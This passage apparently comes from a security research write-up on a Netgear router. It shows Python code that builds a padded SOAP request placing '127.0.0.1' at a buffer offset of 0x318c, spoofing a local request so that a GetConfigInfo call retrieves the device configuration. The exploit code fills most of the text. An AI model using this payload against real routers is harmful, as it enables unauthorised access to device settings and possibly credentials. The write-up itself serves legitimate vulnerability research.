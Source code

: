 You can see that it work, as the old service is crashed and is replaced by a new one.

#### 3.6.2 Crafting API payload
Now we are able to trigger the bug, we need to find how to craft an SOAP request payload to get the config device ? After a while searching, I found this: https://github.com/DRuggeri/netgear_client
There is a list of API request payload that I can use, and one of them is `GetConfigInfo`
![getconfiginfo](img/getconfiginfo.png)

#### 3.6.3 Get Router config
```python
payload3= f"POST lmao abcd "
IP_offset = 0x318c # offset from request buffer
payload3 = payload3 + " " * (IP_offset - len(payload3)) + "127.0.0.1\x00\n"

payload3 += '''Accept: text/xml
Accept: multipart/*
Accept: application/soap
User-Agent: SOAP::Lite/Perl/1.09
Content-Length: 577
Content-Type: text/xml; charset=utf-8
SOAPAction: "urn:NETGEAR-ROUTER:service:DeviceConfig:1#GetConfigInfo"

<?xml version="1.0" encoding="UTF-8"?>
<soap:Envelope 
    soap:encodingStyle="http://schemas.xmlsoap.org/soap/encoding/" 
    xmlns:soap="http://schemas.xmlsoap.org/soap/envelope/" 
    xmlns:soapenc="http://schemas.xmlsoap.org/soap/encoding/" 
    xmlns:xsd="http://www.w3.org/2001/XMLSchema" 
    xmlns:xsi="http://www.w3.org/2001/XMLSchema-instance">

  <soap:Body>
      </soap:Body>
</soap:Envelope>

'''
```